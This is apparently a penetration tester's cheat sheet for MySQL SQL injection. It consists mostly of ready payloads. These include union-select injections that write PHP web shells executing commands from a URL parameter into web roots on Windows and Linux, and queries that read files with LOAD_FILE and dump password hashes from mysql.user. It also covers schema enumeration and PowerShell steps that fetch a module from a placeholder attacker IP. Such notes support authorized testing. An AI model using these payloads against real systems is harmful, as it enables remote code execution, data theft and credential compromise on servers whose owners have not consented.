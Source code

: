 # sqli mysql

## Checks for UDF (if root on mysql)

```bash
# checking if database has been misconfigured to allow insecure handling of files.
SHOW VARIABLES LIKE "secure_file_priv";

# where udf files are loaded from
@@plugin_dir;
SHOW VARIABLES LIKE 'plugin_dir';

# show all vars
SHOW variables;

# show PERMS
SHOW Grants;
```

## SQLi shell

```bash
# windows
?id=1 union all select 1,2,"<?php echo system($_GET['cmd']);?>",4 into OUTFILE 'c:/xampp/htdocs/cmd.php'

# linux
?id=1 union all select 1,2,"<?php echo shell_exec($_GET['cmd']);?>",4 into OUTFILE '/var/www/html/cmd.php'
# try: "<?php echo exec($_GET["cmd"]);"
# try: replace "php-payload" with (php-payload)
```

## my-sql commands

```bash
# comments
#
--
/* <blah> */

# concatenation
# 0x3a separates the field with a ':'
concat(col_1,col_2)
concat(col_1,0x3a,col_2)
concat(0x28,col_1,0x3a,col_2,0x29)
col_1|| '~' || col_2

# hostname
@@hostname

# data directory
@@datadir

# version
@@version
version()

# read-file
# C:\Windows\System32\Drivers\etc\hosts
# C:\\Windows\\System32\\Drivers\\etc\\hosts
LOAD_FILE('<file>')
TO_BASE64(LOAD_FILE('<file>'))

# users
user()
system_user()
| SELECT user FROM mysql.user

# password (md5)
# TO_BASE64(password)
| SELECT password FROM mysql.user

# databases
database()
| SELECT schema_name FROM information_schema.schemata;

# tables
SELECT table_name FROM information_schema.tables WHERE table_schema='<db>'
# can use WHERE table_schema IN (0x<table-in-hex>, 0x<table-in-hex>)

# cols
SELECT column_name FROM information_schema.columns WHERE table_name='<table>'
describe [<db>.]<table>

# nth row
# to get total-rows
SELECT count(*) FROM <table>
# enumerate incrementally
SELECT <col> FROM <table> LIMIT <n>,1
SELECT <col> FROM <table> LIMIT 1 OFFSET <n>
```

## mysql w/ powershell

* [mcpmag.com/querying-mysql-databases.aspx/](https://mcpmag.com/articles/2016/03/02/querying-mysql-databases.aspx/)
* **known bug
  fix:** [adamtheautomator.com/powershell-get-credential/#Create_a_Credential_without_a_Prompt](https://adamtheautomator.com/powershell-get-credential/#Create_a_Credential_without_a_Prompt)

```bash
wget https://github.com/adbertram/MySQL/archive/master.zip -O MySQL.zip

# setup
Invoke-WebRequest  -Uri http://IP/MySQL.zip -OutFile 'C:\MySQL.zip'

$modulesFolder = 'C:\Program Files\WindowsPowerShell\Modules'
Expand-Archive -Path C:\MySql.zip -DestinationPath $modulesFolder
Rename-Item -Path "$modulesFolder\MySql-master" -NewName MySQL

# usage
$user = '<user>'
$password = ConvertTo-SecureString '<password>' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($user, $password)

Connect-MySqlServer -Credential $credential -ComputerName 'localhost' -Database "<db>"
Invoke-MySqlQuery  -Query "select @@version;"
```

## Error based

* [perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/)
